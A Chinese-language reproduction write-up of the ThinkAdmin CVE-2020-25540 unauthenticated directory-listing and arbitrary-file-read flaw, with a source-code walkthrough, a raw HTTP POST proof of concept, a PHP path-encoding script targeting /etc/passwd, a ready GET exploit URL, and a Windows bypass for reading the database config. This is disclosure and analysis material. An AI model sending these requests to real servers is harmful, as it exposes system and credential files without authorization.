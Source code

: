 # ThinkAdmin未授权列目录/任意文件读取(CVE-2020-25540)漏洞

### 0X00简介

> ThinkAdmin是一套基于ThinkPHP框架的通用后台管理系统,ThinkAdmin v6版本存在路径遍历漏洞。攻击者可利用该漏洞通过GET请求编码参数任意读取远程服务器上的文件。

### 0X01影响范围

> Thinkadmin ≤ 2020.08.03.01   v5（任意文件读取）   v6（列目录,任意文件读取）

- 
- 

```
查看版本https://ip/admin/login.html?s=admin/api.Update/version
```

![img](.resource/Untitled/media/640-20201203205524089.png)

### 0X02漏洞复现

在`app/admin/controller/api/Update.php`中存在3个function，无需登录验证就能使用。

```
namespace
app\admin\controller\api;
use think\admin\Controller;
use think\admin\service\ModuleService;
use think\admin\service\SystemService;
```

#### 1.列目录漏洞

在node()方法中，直接将POST的rules和ignore参数传给了InstallService::instance()->getList()![img](.resource/Untitled/media/640-20201203205523992.png)在vendor/zoujingli/think-library/src/service/InstallService.php中利用scanList()去遍历$rules数组![img](.resource/Untitled/media/640-20201203205523991.png)继续跟进，在scanList()方法中调用scanDirectory()递归遍历目录下的文件，然后利用_getInfo()方法获取文件名和哈希值。![img](.resource/Untitled/media/640-20201203205524006.png)![img](.resource/Untitled/media/640-20201203205524059.png)![img](.resource/Untitled/media/640.png)在整个过程中并没有进行任何过滤和认证，由此攻击者可以利用此漏洞获取服务器目录列表。

利用poc



```
POST /admin/login.html?s=admin/api.Update/node HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4da326327c0b75fb074122a093e912a0
Upgrade-Insecure-Requests: 1
Content-Length: 21
Content-Type: application/x-www-form-urlencoded
Cache-Control: max-age=0

rules=%5B%22%2F%22%5D
```

![img](.resource/Untitled/media/640-20201203205524165.png)

#### 2.任意文件读取漏洞

在app/admin/controller/api/Update.php中存在get()方法，对GET中的encode参数使用decode()方法进行解码。![img](https://mmbiz.qpic.cn/mmbiz_png/kTIZMBcJhwiayeZGCoN8fNeTVtK32NOd4SlLZzpJsiaapTbrn7OA1HBVTX3Dl1kRibicVto1cUlibvEnsoh0lFCmgbw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)![img](.resource/Untitled/media/640-20201203205523989.png)上面正好有个encode()方法，攻击时可以直接调用。![img](.resource/Untitled/media/640-20201203205524086.png)继续看ModuleService::instance()->checkAllowDownload()，禁止下载数据库配置文件，name参数不能为database.php。![img](.resource/Untitled/media/640-20201203205524082.png)跟进getAllowDownloadRule()函数。![img](.resource/Untitled/media/640-20201203205524107.png)发现允许了以下路径。



```
config
public/static
public/router.php
public/index.php
app/admin
app/wechat
```

可以通过控制$name参数，实现任意文件读取，且在Linux中无法读取database.php，而window中可以利用database"php来绕过。读取的文件路径需要编码。

编码脚本：



```
<?php
$name="../../../etc/passwd";
for($i=0;$i<strlen($ename=iconv('UTF-8','GBK//TRANSLIT',$name));$i++)
{
  echo str_pad(base_convert(ord($ename[$i]),10,36),2,0,0);
}
?>
```



```
https://url/admin/login.html?s=admin/api.Update/get/encode/1a1a1b1a1a1b1a1a1b2t382r1b342p37373b2s
```

![img](.resource/Untitled/media/640-20201203205524226.png)![img](.resource/Untitled/media/640-20201203205524186.png)

参考链接：

https://github.com/zoujingli/ThinkAdmin/issues/244

